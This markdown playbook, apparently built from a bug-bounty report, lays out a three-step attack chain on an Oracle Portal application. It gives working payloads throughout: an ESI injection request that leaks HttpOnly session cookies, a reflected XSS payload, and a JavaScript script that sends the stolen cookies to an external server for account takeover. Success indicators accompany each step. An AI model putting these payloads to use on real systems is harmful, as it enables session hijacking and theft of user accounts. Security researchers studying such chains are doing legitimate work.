

# Chained ESI Injection and Reflected XSS for Session Cookie Theft and Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow on an Oracle Portal application, exploiting ESI injection to leak HttpOnly session cookies and chaining it with reflected XSS to automate theft and exfiltration, resulting in account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Burp Suite or similar proxy for request manipulation

### Target Environment

- Oracle Portal application with PL/SQL backend
- Web platform accessible via HTTPS
- ESI processing enabled on SearchResults endpoint

### Initial Access Requirements

- Valid user session or public access to the portal
- No special credentials needed for initial exploitation
- Network access to the target URL: https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults

## Detailed Attack Procedures

### Step 1: Exploit ESI Injection to Leak Cookies

procedure: [[procedures/Exploit-ESI-Injection-to-Extract-HttpOnly-Cookies]]

**Objective**: Inject ESI variables into the 'ms' parameter to access and extract HttpOnly session cookies from HTTP headers, bypassing client-side restrictions.

**Instructions**: Use a browser or proxy tool to send a GET request to the SearchResults endpoint with the malicious payload in the 'ms' parameter. The payload uses ESI variables to include the Cookie header, delimited for easy extraction.

Send the following request:

```http
GET /portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults?ms=lol<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>lol HTTP/1.1
Host: ████████
```

Inspect the response in the Search field where cookies will appear between the 'lol' delimiters.

**Expected Output**: The response HTML includes the injected cookies in the Search field, e.g., 'lol JSESSIONID=abc123; AUTH_TOKEN=xyz456 lol'.

**Success Indicators**:
- Cookies visible in the response body between delimiters
- No server errors; page renders with leaked data

### Step 2: Verify Reflected XSS Vulnerability

procedure: [[procedures/Exploit-Reflected-XSS-in-Title-Parameter]]

**Objective**: Confirm the reflected XSS in the 'title' parameter of the show_tree endpoint by injecting a simple payload that executes JavaScript, proving arbitrary code execution in the victim's browser.

**Instructions**: Navigate to the show_tree endpoint and append the XSS payload to the 'title' parameter. Use a basic alert to test execution.

Send the following request:

```http
GET /portal/pls/portal/PORTAL.wwexp_render.show_tree?title=</title><svg/onload=alert(domain)> HTTP/1.1
Host: ████████
```

Observe the page load and check for the alert box popping up with the domain name.

**Expected Output**: An alert dialog displays the current domain, confirming JavaScript execution.

**Success Indicators**:
- Alert box appears on page load
- No sanitization errors; payload reflects unsanitized

### Step 3: Chain Vulnerabilities for Cookie Theft and Exfiltration

procedure: [[procedures/Chain-ESI-Injection-with-XSS-to-Steal-and-Exfiltrate-Cookies]]

**Objective**: Combine the ESI leak with XSS to fetch the cookie data via JavaScript, parse it, and send it to an attacker-controlled server, enabling remote account takeover.

**Instructions**: First, host an external JavaScript file on your server (e.g., https://www.jr0ch17.com/hta3.js) that contains the logic to fetch the ESI endpoint, extract cookies from the response, and exfiltrate them. Then, inject an XSS payload into the 'title' parameter that loads this script.

The external JS should include:

```javascript
function stealCookies() {
  fetch('https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults?ms=lol<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>lol')
    .then(response => response.text())
    .then(html => {
      const parser = new DOMParser();
      const doc = parser.parseFromString(html, 'text/html');
      const cookies = doc.querySelector('#x61_ms').innerText.match(/lol(.*?)lol/)[1];
      fetch('https://www.jr0ch17.com/ato?cookies=' + encodeURIComponent(cookies));
    });
}
stealCookies();
```

Inject the XSS payload:

```http
GET /portal/pls/portal/PORTAL.wwexp_render.show_tree?title=</title><script src="https://www.jr0ch17.com/hta3.js"></script> HTTP/1.1
Host: ████████
```

Monitor your server for the incoming request with stolen cookies.

**Expected Output**: Server receives a GET request to /ato with query parameter containing the victim's cookies.

**Success Indicators**:
- External server logs show exfiltrated cookies
- Victim's session can be hijacked using the stolen cookies

## Attack Chain Summary

### Key Achievements

1. Successful extraction of HttpOnly cookies via ESI injection, bypassing browser protections.
2. Arbitrary JavaScript execution via reflected XSS, enabling dynamic payload delivery.
3. Automated cookie theft and exfiltration, leading to full account takeover without direct access.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
